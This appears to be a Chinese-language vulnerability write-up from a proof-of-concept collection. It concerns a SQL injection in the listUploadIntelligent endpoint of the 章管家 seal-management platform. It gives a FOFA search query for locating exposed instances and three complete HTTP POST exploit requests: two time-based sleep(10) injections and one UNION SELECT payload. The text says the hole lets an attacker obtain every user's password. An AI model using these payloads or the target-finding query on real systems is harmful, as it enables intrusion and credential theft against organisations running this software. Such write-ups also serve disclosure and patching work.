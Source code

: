 # 章管家listUploadIntelligent接口存在sql注入漏洞

listUploadIntelligent接口存在 SQL 注入漏洞。攻击者可以通过构造特定的 POST 请求注入恶意 SQL 代码，利用该漏洞对数据库执行任意 SQL 操作，获取所有用户的账户密码信息。

## fofa

```java
app="章管家-印章智慧管理平台"
```

## poc

```java
POST /app/message/listUploadIntelligent.htm?&person_id=1&unit_id=1 HTTP/1.1
Host:127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 119

pageNo=1&pageSize=20&keyWord=&startDate=&endDate=&deptIds=&type_id=&is_read=-1 and (select*from(select%0Asleep(10))x)
```

```java
POST /app/message/listUploadIntelligent.htm?token=dingtalk_token&person_id=1&unit_id=1 HTTP/1.1
Host:127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 119

pageNo=1&pageSize=20&keyWord=&startDate=&endDate=&deptIds=&type_id=&is_read=-1 and (select*from(select%0Asleep(10))x)
```

```java
POST /app/message/listUploadIntelligent.htm?token=dingtalk_token&person_id=1&unit_id=1 HTTP/1.1
Host:127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Cookie: 
Content-Type: application/x-www-form-urlencoded
Content-Length: 131

pageNo=1&pageSize=20&keyWord=&startDate=&endDate=&deptIds=&type_id=&is_read=-1 union select md5(123456),2,3,4,5,6,7,8,9,10,11,12 --
```

![图片.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408121121661.png)



## 漏洞来源

- https://forum.butian.net/article/528